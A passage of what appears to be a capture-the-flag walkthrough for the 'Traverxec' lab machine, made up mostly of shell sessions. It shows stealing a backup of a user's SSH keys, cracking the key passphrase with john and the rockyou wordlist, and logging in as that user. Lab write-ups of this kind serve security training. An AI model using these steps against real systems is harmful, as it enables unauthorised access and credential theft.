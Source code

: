 ```console
www-data@traverxec:/home/david/public_www$ ls -al
total 16
drwxr-xr-x 3 david david 4096 Oct 25  2019 .
drwx--x--x 5 david david 4096 Oct 25  2019 ..
-rw-r--r-- 1 david david  402 Oct 25  2019 index.html
drwxr-xr-x 2 david david 4096 Oct 25  2019 protected-file-area
```

- move gzip file to local host, unzip it, crack ssh's passphrase

```console
$ file backup-ssh-identity-files.tgz
backup-ssh-identity-files.tgz: gzip compressed data, last modified: Fri Oct 25 21:02:59 2019, from Unix, original size modulo 2^32 10240

$ gunzip backup-ssh-identity-files.tgz

$ tar xvf backup-ssh-identity-files.tar
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub

$ ssh -i id_rsa david@$IP
Enter passphrase for key 'id_rsa': -> crack using john

$ john hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 10 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
hunter           (id_rsa)
1g 0:00:00:00 DONE (2024-01-19 07:09) 33.33g/s 5333p/s 5333c/s 5333C/s jonathan..david
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```console
$ ssh -i id_rsa david@$IP
Enter passphrase for key 'id_rsa':
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64
david@traverxec:~$ id
uid=1000(david) gid=1000(david) groups=1000(david),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
david@traverxec:~$ uname -a
Linux traverxec 4.19.0-6-amd64 #1 SMP Debian 4.19.67-2+deb10u1 (2019-09-20) x86_64 GNU/Linux
david@traverxec:~$ ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 00:50:56:b9:43:8c brd ff:ff:ff:ff:ff:ff
    inet 10.10.10.165/24 brd 10.10.10.255 scope global eth0
       valid_lft forever preferred_lft forever
```
